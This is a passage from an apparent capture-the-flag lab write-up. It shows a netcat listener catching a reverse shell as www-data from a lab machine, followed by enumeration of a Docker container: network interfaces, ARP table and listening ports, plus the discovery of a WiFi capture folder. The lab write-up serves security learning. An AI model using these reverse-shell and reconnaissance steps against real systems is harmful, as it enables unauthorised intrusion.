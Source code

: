     
    
    root@kali# nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.83] 48372
    ‍id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

We now have access to what we’ll later find is called the the Create
container.

## Pivot to Olympia Container - Shell as icarus

### Enumeration of Create

It’s quickly clear that this is a stripped down environment, likely a
container:

    
    
    ‍which python
    
    ‍which python3
    
    ‍hostname
    f00ba96171c5
    
    ‍ifconfig
    eth0      Link encap:Ethernet  HWaddr 02:42:ac:14:00:02
              inet addr:172.20.0.2  Bcast:172.20.255.255  Mask:255.255.0.0
              UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
              RX packets:3149050 errors:0 dropped:0 overruns:0 frame:0
              TX packets:2384513 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:0
              RX bytes:421530652 (402.0 MiB)  TX bytes:423441702 (403.8 MiB)
    
    lo        Link encap:Local Loopback
              inet addr:127.0.0.1  Mask:255.0.0.0
              UP LOOPBACK RUNNING  MTU:65536  Metric:1
              RX packets:36092 errors:0 dropped:0 overruns:0 frame:0
              TX packets:36092 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1
              RX bytes:2823261 (2.6 MiB)  TX bytes:2823261 (2.6 MiB)
    
    ‍arp -a
    ? (172.20.0.1) at 02:42:e3:e6:86:2f [ether] on eth0
    
    ‍netstat -anop | grep LISTEN
    tcp        0      0 127.0.0.11:36933        0.0.0.0:*               LISTEN      -                off (0.00/0/0)
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                off (0.00/0/0)
    

There’s only one user on the box, `zeus`, and the only thing in the homedir is
`airgeddon`, a tool for WiFi sniffing. Inside `/home/zeus/airgeddon/captured`
is a pcap and a note:
